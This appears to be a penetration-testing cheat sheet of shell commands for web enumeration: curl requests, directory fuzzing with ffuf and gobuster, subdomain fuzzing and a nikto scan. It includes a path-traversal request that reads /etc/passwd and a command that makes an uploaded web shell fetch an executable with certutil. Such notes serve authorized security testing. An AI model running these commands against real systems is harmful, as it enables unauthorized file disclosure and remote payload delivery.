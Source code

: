 ```bash
curl --path-as-is http://$ip/../../../etc/passwd -o passwd.txt
```

```bash
curl -G http://$ip/uploads/shell.php --data-urlencode "cmd=certutil -urlcache -split -f http://$ip/ncpp.exe" | html2text
```

Empty content length can be specified by using either of:

```bash
curl -X POST -d "" http://$ip
```

```bash
curl -s -i -X POST -H 'Content-Length: 0'
```

### Passive Web Directory Fuzzing

```bash
curl $ip -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'
```

### Active Web Directory Fuzzing

```bash
ffuf -u "http://$ip/FUZZ" -w /usr/share/dirb/wordlists/common.txt
```

```bash
ffuf -mc all -fc 404 -u "http://$ip:10443/FUZZ" -w /usr/share/dirb/wordlists/common.txt
```

Detailed directory scan for hidden items

[https://github.com/OJ/gobuster/releases](https://github.com/OJ/gobuster/releases)

```bash
gobuster dir -u http://$ip -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50
```

### Subdomain Enumeration

```bash
ffuf -u http://domain.com/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host:FUZZ.domain.com" -fs 169
```

```bash
wfuzz -c -f domain.com -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u "http://domain.com/" -H "Host: FUZZ.domain.com" --hl 39
```

### Additional Web Enumeration (dangerous files/CGI, cookies, etc.)

```bash
nikto +host $ip
```
